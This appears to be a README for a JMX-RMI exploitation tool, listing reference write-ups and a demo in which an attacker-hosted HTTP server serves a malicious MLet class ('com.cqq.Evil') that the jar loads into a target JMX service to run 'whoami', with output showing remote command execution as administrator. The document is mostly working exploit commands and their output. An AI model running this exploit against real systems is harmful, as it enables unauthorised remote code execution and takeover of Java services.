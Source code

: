 ## Ref
- https://hu3sky.github.io/2020/03/06/JMX-RMI/
- https://www.cnblogs.com/afanti/p/10610682.html
- https://webcache.googleusercontent.com/search?q=cache:https://www.optiv.com/blog/exploiting-jmx-rmi&strip=1&vwsrc=0

## Demo
```
cd web
python3 -m http.server 4141
```

```
java -jar jmxrmi-test.jar 10.x.y.9 7199 whoami "10.x.y.9:4141"
Proxy[RMIServer,RemoteObjectInvocationHandler[UnicastRef [liveRef: [endpoint:[10.x.y.9:45880](remote),objID:[62e13d6f:175545b2b59:-7fff, 5578557230260991526]]]]]
[info] IP is inner IP add a temp IP and port forward..
十月 23, 2020 3:27:01 下午 com.cqq.PortMap forward
信息: 监听端口:45880
URL: service:jmx:rmi:///jndi/rmi://10.x.y.9:7199/jmxrmi, connecting
Connected: rmi://10.m.n.145  1
Trying to create bean...
Loaded javax.management.loading.MLet
Loaded class: com.cqq.Evil object MLetCompromise:name=evil,id=1
Result: cqq\administrator

```